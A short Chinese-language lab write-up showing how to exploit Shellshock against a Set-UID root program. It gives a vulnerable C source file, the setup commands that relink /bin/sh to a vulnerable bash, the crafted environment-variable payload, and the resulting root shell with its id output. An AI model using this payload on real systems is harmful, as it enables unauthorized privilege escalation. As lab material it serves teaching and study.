 #
#### 利用shellshock攻击Set-UID程序
当特权程序通过system()函数执行/bin/ls时，将会启动一个bash进程，攻击者设置的环境变量会导致非授权的命令以root权限执行。
```
// vul.c
# include <unistd.h>
# include <stdio.h>
# include <stdlib.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l");
}
```
system()使用fork()函数创建子进程，然后使用execl()函数执行/bin/sh程序。**最终请求shell程序**执行/bin/ls。  
/bin/sh指向的时/bin/dash，dash是没有漏洞。为了实验成功。把/bin/sh指向前面安装的bash_shellshock  
```
ubuntu@VM-0-17-ubuntu:~$ sudo ln -sf /bin/bash_shellshock /bin/sh
ubuntu@VM-0-17-ubuntu:~$ gcc -o vul vul.c
ubuntu@VM-0-17-ubuntu:~$ sudo chown root vul
ubuntu@VM-0-17-ubuntu:~$ sudo chmod 4655 vul
ubuntu@VM-0-17-ubuntu:~$ echo $foo

ubuntu@VM-0-17-ubuntu:~$ export foo='() { echo hello shan;}; /bin/sh'
ubuntu@VM-0-17-ubuntu:~$ ./vul 
sh-4.2# id
uid=0(root) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)  
sh-4.2# 

```
uid为0，成功拥有root权限


